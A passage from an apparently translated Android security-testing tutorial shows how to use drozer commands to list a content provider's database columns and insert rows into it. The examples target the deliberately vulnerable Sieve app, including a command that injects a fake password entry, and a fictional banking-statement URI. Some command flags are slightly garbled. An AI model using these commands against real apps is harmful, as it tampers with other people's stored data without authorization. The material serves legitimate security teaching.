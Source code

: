 在我们向内容提供者中插入数据之前，我们需要知道为数据库设置的模式或列是什么样子的；您可以使用 drozer 控制台中的以下命令来枚举这些信息:

```java
dz> run app.provider.columns [URI]

```

在前面的命令中`[URI]`是你想要找到的 URI。例如，如果您想对 screen 运行它，您可以执行以下命令:

```java
dz> run app.provider.columns content://com.mwr.example.seive.DBContentProvider/Passwords

```

前面的命令将产生如下截图所示的输出:

![How to do it...](img/00098.jpeg)

枚举数据库的列之所以有用，是因为它可以帮助您构建未来对内容提供商的攻击；您可能需要稍微了解一下模式，以便能够知道您可能对从中提取和插入哪些列和行感兴趣。

一旦您稍微了解了数据库的结构以及正确构建查询所需的列名，就可以使用以下命令将数据插入到内容提供程序中:

```java
dz> run app.provider.insert [URI] [--boolean [name] [value]] [--integer [name] [value]] [--string [name] [value]]...

```

在前面的命令中，`[URI]`是指向相关数据库的 URI，`--boolean`、`--integer`、`--string`是您应该提供的标志，用于将给定的数据标记为给定的数据类型。该模块支持以下数据类型:

```java
--boolean –-double –-float –-integer –-long –-string –short
```

它们都需要表示列名的`[name]`值和表示要插入的实际值的`[value]`。

以下代码是一个示例:

```java
dz> run app.provider.insert –-int _id 12 –-int from_account 31337 –-int to_account –-int amount 31337    content://com.example.vulnerabledatabase.contentprovider/statements 

```

下面是一个虚构的例子。你的设备上可能不存在 URI，除非你已经明确开发了一些处理它的应用。

下面是一个针对 Sieve 的工作示例:

```java
dz>  run app.provider.insert content://com.mwr.example.sieve.DBContentProvider/Passwords –-int _id 3 –-string username injected –-string service injected –-string password woopwoop –-string email myspam@gmail.com 

```

一旦您查询了 Sieve 的密码 URI 并执行了前面的命令，将返回以下数据:

![How to do it...](img/00099.jpeg)
